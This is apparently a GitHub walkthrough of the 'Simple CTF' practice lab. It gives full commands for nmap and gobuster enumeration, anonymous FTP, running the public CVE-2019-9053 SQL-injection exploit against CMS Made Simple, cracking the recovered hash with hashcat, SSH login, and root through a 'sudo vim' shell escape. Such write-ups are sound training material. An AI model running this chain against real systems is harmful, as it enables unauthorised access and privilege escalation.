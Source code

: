 # Simple-CTF-walkthrough
#Step 1
 - How many services are running under port 1000?
 - Run nmap -A {target IP}
    - results in: 2 ports under 1000 and 1 port over 1000
        -21/tcp   open    ftp vsftpd 3.0.3 *note-ftp-anon:Anonymous FTP login allowed
        -80/tcp   open    http    Apache httpd 2.4.18
        -2222/tcp open    ssh     Openssh 7.2p2

#Step 2
 - CLI - ftp {target}
    - ({target}:root): Anonymous
        - use: ftp> ls
        - you will see: drxr-xr-x   2 ftp   ftp 4096 Aug 17 2019 pub
    - pub is a directory
        - use: cd /pub
        - you will see: -rw-r--r--  1ftp    ftp 166 Aug 17 2019 ForMitch.txt
        - use: get ForMitch.txt
            -the file will be sent to your directory
        - use: ftp> exit to exit the ftp you signed into
    - You will be back at YOUR root
        - type ls
        - you will see: ForMitch.txt in your files
        - type cat ForMitch.txt
        - you will see: 
                Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!

#Step 3
 - Open Firefox
    - Type in the {target IP} in the URL
    - you can add /robots.txt to see if there is anything else too look at 

#Step 4
- Use gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://{target IP}
        - you will have the result: /simple (Status: 301)

#Step 5
- Reopen Firefox and use the {target IP} and add /simple at the end of it in the URL
    - You will see CMS made simple, if you go to the bottom of the page, you will see version 2.2.8
    - Open another tab in firefox and look up: exploitdb
        - open google exploit Database and put CMS made simple 2.2 in the search box
        - you will not find CMS Made Simple 2.2.8, but you will find CMS Made Simple <2.2.10-SQL injection 
    - Click on the hyperlink with CMS Made Simple <2.2.10-SQL injection 
        - you will find: CVE-2019-9053
        - click the download button and recieve the file 46635.py
        - NOTE: do not download more than one file copy of 46635.py or it will not work
#Step 6
- Open your terminal and type in Python2 46635.py -u http://{target IP}/simple/
    - If it does not work you  may need to install request
        - curl -O https://bootstrap.pypa.io/pip/2.7/get-pip.py
        - python2 get-pip.py
        then:
        - python2 -m pip install --upgrade setuptools
        then:
        - python2 -m pip install termcolor

    - If you need to put the syntax in again 'python2 46635.py -u http://{targeIP}/simple/' (without the ''), please run it again. You will start to see the formation of a Salt for password, Username, Email, and a password:
        - Salt for Password found: 1dac0d92e9fa6bb2
        - Username found: mitch
        - Email found: admin@admin.com
        - Password found: 0c01f4468bd75d7a84c7eb73846e8d96

#Step 7 (use sudo su to become root, normal user doesn't seem to work)
    - hashcat your findings
        - hashcat -O -a 0 -m 20 0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2 /usr/share/wordlists/rockyou.txt
    - you will recieve 0c01f4468bd75d7a84c7eb73846e8d96:secret
    - the password is: secret

#Step 8
    - log into ssh mitch@{targetID} -p 2222 
    - password is: secret

#Step 9
    - type: ls and find user.txt
    - cat user.txt
        - Recover G00d j0b, keep up!

#Step 10
    - type: ls /home to return to home directory under Mitch's account
    - you will see two options 'mitch' and 'sunbath'

#Step 11
    - type sudo -l (-l is for list)
    - you will see (root) NOPASSWD: /usr/bin/vim
        -vim is your next answer

#Step 12
    - go to firefox and type GTFOBins in the URL
    - in the sub sections you will see: 'Vim' 'For Windows' 'Base64' 'Python' etc
        - select Vim
        - copy the vim -c ':!/bin/sh', then click on the bubble with Sudo
            - you will see (a) sudo vim -c ':!/bin/sh'
            - copy that syntax and paste it into your terminal under mitch's machine
                - this makes you root
                - next to the (#) type: whoami
                    - you will see: root
                    - type: ls /root
                    - you will see: root.txt
                        -cd /root
                        - you will see: root.txt
                        - cat root.txt
                            -W3ll d0n3. You made it!
